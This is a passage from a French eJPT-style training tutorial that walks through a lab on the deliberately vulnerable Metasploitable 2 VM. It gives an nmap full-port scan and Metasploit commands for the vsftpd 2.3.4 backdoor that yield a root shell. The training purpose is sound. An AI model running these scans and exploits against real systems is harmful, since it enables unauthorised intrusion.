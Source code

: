 Metasploitable 2 est une machine virtuelle Linux délibérément vulnérable, conçue pour la formation à la sécurité. C'est un excellent environnement pour pratiquer les compétences nécessaires à l'eJPT. Voici un mini-lab de 90 minutes qui vous permettra de mettre en pratique tout ce que nous avons vu jusqu'à présent.

### Configuration

1. Téléchargez Metasploitable 2 depuis [SourceForge](https://sourceforge.net/projects/metasploitable/)
2. Importez l'image dans VMware ou VirtualBox
3. Configurez le réseau en mode "Host-only" ou "NAT" pour isoler la machine
4. Démarrez Metasploitable 2 et notez son adresse IP (généralement affichée à l'écran de connexion)

**En clair, pour un débutant** : Metasploitable 2 est comme un terrain d'entraînement rempli de cibles faciles. Vous l'installez dans une machine virtuelle isolée pour pouvoir pratiquer sans danger.

### Phase 1 : Reconnaissance (15 minutes)

```bash
# Scan complet
sudo nmap -sS -sV -O -p- -T4 <IP_METASPLOITABLE>

# Résultats typiques (partiels)
# 21/tcp   open  ftp         vsftpd 2.3.4
# 22/tcp   open  ssh         OpenSSH 4.7p1
# 23/tcp   open  telnet      Linux telnetd
# 25/tcp   open  smtp        Postfix smtpd
# 80/tcp   open  http        Apache httpd 2.2.8
# 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
# 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
# 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
# 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
# 8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

**En clair, pour un débutant** : Cette étape vous permet d'identifier tous les services vulnérables sur la machine. Metasploitable 2 en contient beaucoup, c'est comme un catalogue de failles de sécurité.

### Phase 2 : Exploitation des services (45 minutes)

#### Exploitation de vsftpd 2.3.4

```bash
# Dans Metasploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP_METASPLOITABLE>
exploit
# Résultat : Shell root obtenu
```

**En clair, pour un débutant** : Cette version de FTP contient une backdoor (porte dérobée) intentionnelle qui nous donne directement un accès administrateur.
